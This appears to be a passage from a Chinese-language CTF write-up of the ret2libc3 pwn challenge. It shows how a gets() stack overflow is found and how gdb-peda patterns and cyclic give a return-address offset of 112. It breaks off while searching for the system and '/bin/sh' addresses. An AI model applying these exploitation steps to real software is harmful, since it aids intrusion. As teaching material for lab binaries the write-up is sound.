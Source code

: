 存在 gets 函数，有栈溢出的可能，计算返回地址到可控输入的偏移量（这里使用另一种方法）

```bash
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'

gdb-peda$ r
Starting program: /home/qufeng/Desktop/pwn1/ret2libc3 
No surprise anymore, system disappeard QQ.
Can you find it !?AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
//拿到 ebp 的值为 EBP: 0x6941414d ('MAAi')

gdb-peda$ pattern offset MAAi
MAAi found at offset: 108
//故偏移量为 108+4=112
```

或者：

```bash
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ gdb ret2libc3 
gdb-peda$ r
Starting program: /home/qufeng/Desktop/pwn1/ret2libc3 
No surprise anymore, system disappeard QQ.
Can you find it !?aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
//执行结果后半部分
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x62616164 in ?? ()    //出现溢出的位置

gdb-peda$ q
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ cyclic -l 0x62616164
112
```

3、找 system 地址及/bin/sh 地址

```bash
$info functions         //没有 system 地址
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2libc3 --string "/bin/sh"
Strings information
============================================================
```
